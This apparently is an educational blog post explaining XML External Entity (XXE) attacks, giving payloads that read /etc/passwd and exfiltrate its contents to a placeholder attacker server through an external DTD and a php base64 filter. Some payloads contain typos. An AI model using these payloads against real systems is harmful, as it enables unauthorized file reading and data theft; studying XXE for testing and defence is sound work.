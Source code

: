 Hi all,

In this post we will cover these following topics.

What is XXE?<br>
How to confirm XXE?<br>
How Exploit Basic XXE?<br>
How Blind XXE works?<br>
and a alternative of blind XXE payload.<br>

But first let's understand some basic keywords.

**Entity**: Entities *reference* data that act as an abbreviation or can be found at an external location. Syntax:- **&test;**

Most common entites are:-

**Internal Entity**: If an entity is declared within a DTD it is called as internal entity.<br>
*Syntax:-* `<!ENTITY entity_name "entity_value">`

**External Entity**: If an entity is declared outside a DTD it is called as external entity. Identified by 'SYSTEM'.<br>
*Syntax:-* `<!ENTITY entity_name SYSTEM "entity_value">`

**Parameter Entity**: The purpose of a parameter entity is to enable you to create reusable sections of replacement text. (If not understood, You will understand more clearly in later.)<br>
*Syntax:-* `<!ENTITY % entity "another entity (Internal or External)">`


## What is XXE?

XXE is a short of XML External Entity, which is a vulnerablity found when misconfiguration XML parser parses enternal entities.
There are two types of XXE:- 

1. Basic.
2. Blind.

Basic one:-

For ex you have a url with a parameter that parses XML data somthing like this:- 'http://myapp.com/somefile.php?xml=<xml_data>'

Now when you provide any xml data, and that data is printing back to the user's browser then you can try basic XXE. You have to confirm the vulnerability existence and this can be done by something like this.

**Payload 1**:- 

`<?xml version="1.0"?>`<br>
`<!DOCTYPE root [`<br>
`<!ENTITY test SYSTEM 'http://yourserverip/'>]>`<br>
`<root>&test;</root>`<br>

Now let's understand this. 

1.First we declare the xml Syntax, now, we define DOCTYPE to define the contents of XML body,<br> 
2.After that, we define root element after the DOCTYPE i.e. root, next, we define the Entity and that entity contains SYSTEM attribute which indicate that the entity is External.<br>
3.After that we define our server's ip because we want to let the target server to send the request to us.

Now when you give that payload to mis-configured XML parser, the mis-configured XML parser will parse the entity `&test;` and we define our server ip, So, it will process our External entity by **requesting to your server ip.**

So if you got a new connection in the log file then it is confirmed that you have found XXE.

### Now it's time to exploit it.

Our main target is to read local files of the web server and this can be done using this payload 

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>`,

The xml parser will process this payload as same as above but instead of requesting to your server now it will request to locally, with the file protocol, it will grep the file contents and shown to us. Hence, we can read local file of the webserver.<br><br>

## **What if the xml data is not showing to us? (Blind XXE Case)**

Okay,

Still you can confirm the existence of the vulnerability by using the first payload above. But you can't see the file contents of local files of webserver. This is still an issue but now the severity is a ***little bit low.*** And, this is called Blind XXE OR Out-of-band XXE.

So we also needed to blind means we have to use blind payload which will grep the contents of the local files of the webserver and send the contents to our server. Sound interesting, let's see how this whole theory works and also let's see that if we have some alternatives to do that.

**Payload 2**:- 

`<?xml version="1.0"?>`<br>
`<!DOCTYPE root [`<br>
`<!ENTITY % test SYSTEM 'http://yourserver/xml.dtd'> %test; %exe]>`<br>
`<root>&entity;</root>`<br>

Your xml.dtd contents:- 

`<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">`
`<!ENTIY % exe "<!ENTITY entity SYSTEM 'http://yourserver/%file;'>">`<br>

Lot's of code to understand:-

> we are using External dtd file i.e. `%test;`. So first the xml parser will parse this entity and make a request to your web-server for getting the contents of dtd file. Now, in that dtd file we define some entities to process. 
>
> `%exe;` will make another general entity i.e. &entity; and that entity will make a request to our server with the *file contents.* which was found by the `%file;`
>
> When the xml parser parses the entity `%file;`, then that entity will grep the file contents of local files of the server (which is our main target). 
> We are using php filter to get the file contents to bypass any restrictions.
> Now attacker can log the request and reconstruct the file contents. 

Make sense?

Let's see how all this works.

<video src="/bandicam 2018-11-04 23-35-26-024.mp4" width="320" height="200" controls preload></video>

Cool. 

Now, *Have anyone arise a question that why **we call the dtd from attacker's server?** Why not this below payload works?*

**Payload 3**:- 

`<?xml version="1.0"?>`<br>
`<!DOCTYPE root [`<br>
`<!ENTITY % filecontents SYSTEM 'file:///etc/passwd>`<br>
`<!ENTITY test SYSTEM 'http://yourserver/%filecontents;'>]>`<br>
`<root>&test;</root>`<br>

this would be easier than before? Yes it is, but it is not going to work. 

**According to [XML_DOC](https://www.w3.org/TR/xml/#wfc-PEinInternalSubset), parameter entity can't be called inside the DTD subset, they can be called in the External subset (like we did in Payload no 2). It will be forbidden, hence you will get the forbidden error.**

So that's the reason why we can't run above payload.

Let's try another payload:-

**Payload 4**:

`<?xml version="1.0"?>`<br>
`<!DOCTYPE root [`<br>
`<!ENTITY filecontents SYSTEM 'file:///etc/passwd>`<br>
`<!ENTITY test SYSTEM 'http://yourserver/&filecontents;'>]>`<br>
`<root>&test;</root>`<br>

So this payload works without any problem but your entity (oops, will correct it later) will act as string, because entity should be in root tag, if it is not it will act as String.

That's all guys, I just want to share because I want. :). Any thing you want to edit please tell me in the comment section.

Hope you like this read. 

Have a good hacking day.

Thanks




